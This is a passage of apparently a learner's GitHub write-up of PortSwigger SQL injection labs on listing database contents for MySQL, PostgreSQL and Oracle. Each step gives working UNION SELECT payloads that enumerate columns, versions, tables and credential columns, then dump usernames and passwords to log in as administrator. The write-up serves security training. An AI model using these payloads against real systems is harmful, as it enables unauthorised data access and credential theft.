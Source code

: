  **Procedure :-**

1.  Determine the number of columns using ` ' UNION SELECT NULL, NULL --%20`, it shows that the database  contain 2 columns.
2. Determine which column is of text type using ` ' UNION SELECT 'a' , 'a' --%20` shows both the columns are of text type.
3. `--%20` is used as it is syntax for comment in MySQL, so for version checking try ` ' UNION SELECT @@version , NULL --%20` and Voila.


## LAB - 9
**lab link: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle>**

 **Topic :-** 

- SQL injection attack, listing the database contents on non-Oracle databases.


 **To Solve :-**

- Log in as the `administrator` user.

 **Procedure :-**

1. Determine the number of columns using ` ' UNION SELECT NULL, NULL --`, it shows that it contain 2 columns.
2. Determine which column is of text type using ` ' UNION SELECT 'a' , 'a' --`, it shows both column is of text type.
3. Now check which database it is running on using ` ' UNION SELECT version(), NULL --`, which shows it is running `PostgreSQL 12.20`.
4. Now find the table names using ` ' UNION SELECT table_name , NULL from information_schema.tables --`, it shows there is a "users_nzycfv" table.
5. Now to find the column names using ` ' UNION SELECT column_name , NULL FROM information_schema.columns WHERE table_name='users_nzycfv' -- ` it shows there are "password_zbptgp" and "username_qsmwjy" columns for usernames and passwords.
6. Now try ` ' UNION SELECT username_qsmwjy , password_zbptgp FROM users_nzycfv -- ` it returns with all usernmae and passwords including administrator's. then login with admin credential.


## LAB - 10
**lab link: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle>**

 **Topic :-** 

- SQL injection attack, listing the database contents on Oracle.


 **To Solve :-**

- Log in as the `administrator` user.

 **Procedure :-**

1.  Determine the number of columns using ` ' UNION SELECT NULL, NULL FROM DUAL--`, it shows that it contain 2 columns.
2. Determine which column is of text type using ` ' UNION SELECT 'a' , 'a' FROM Dual--`, it shows both column is of text type.
3. Now check which database it is running on using ` ' UNION SELECT banner , NULL FROM v$version--`, which shows it is running `Oracle Database 11g`.
4. now find the table names using ` ' UNION SELECT table_name , NULL from all_tables --`, it shows there is a "USERS_WUTOXD" table.
5. Now to find the column names using ` ' UNION SELECT column_name , NULL FROM all_tab_columns WHERE table_name='USERS_WUTOXD' -- ` it shows there are "PASSWORD_XQDQHQ" and "USERNAME_ZFNIHX" columns for usernames and passwords.
6. Now try ` ' UNION SELECT USERNAME_ZFNIHX , PASSWORD_XQDQHQ FROM USERS_WUTOXD -- ` it returns with all username and passwords including administrator's. then login with admin credential.
